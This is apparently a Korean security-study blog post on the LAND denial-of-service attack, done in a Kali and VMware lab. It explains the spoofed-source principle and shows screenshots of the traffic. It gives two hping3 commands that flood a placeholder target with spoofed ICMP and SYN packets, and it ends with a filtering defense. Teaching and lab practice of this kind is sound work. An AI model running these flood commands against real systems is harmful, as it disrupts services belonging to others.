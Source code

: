 ```yaml
---
layout: post
title: LAND Attack
subtitle: 
gh-repo: nohtaeyoung/nohtaeyoung.github.io
gh-badge: [star, fork, follow]
cover-img: /assets/img/security.jpg
tags: [Network Hacking]
comments: true
---
```


{: .box-note}
<b>블로그 내의 모든 예시와 실습은 VMware workstation16.2.3, Kali Linux 2022.03, RED Hat 0.98 version을 활용 합니다.<br></b>

## Land Attack
- 시스템 리소스 공격 -> 메모리 부하, CPU 부하
- Windows95/XP SP2/Server 2003, Linux 2.0.x Kernel 등의 취약점 -> 현재는 공격되지 않는다.

## 공격 원리
- 연결 요청 메시지의 Source를 공격대상의 주소로 변조하여 공격대상에 응답이 전달되게 한다.
- 다량의 공격 패킷을 전달하여 부하를 유발시키는 공격

## 공격
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] --icmp --flood</b>
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] -s 80 -k -p 80 -S-flood</b>

# 첫 번째 방법으로 공격

## Target IP 확인

![dhcp spoofing1](../assets/img/land/land1.png)

<br>
## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land2.png)

<br>
## kali에서 wire shark 확인

![dhcp spoofing1](../assets/img/land/land3.png)

# 두 번쨰 방법으로 공격

## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land4.png)

<br>
## kali에서 wire shark 확인

![dhcp spoofing1](../assets/img/land/land5.png)

<b>공격이 잘 성공했다.</b>

<br>
## 보안
- 패킷의 출발지와 목적지 주소가 같을 경우 필터링하여 차단해야 한다.


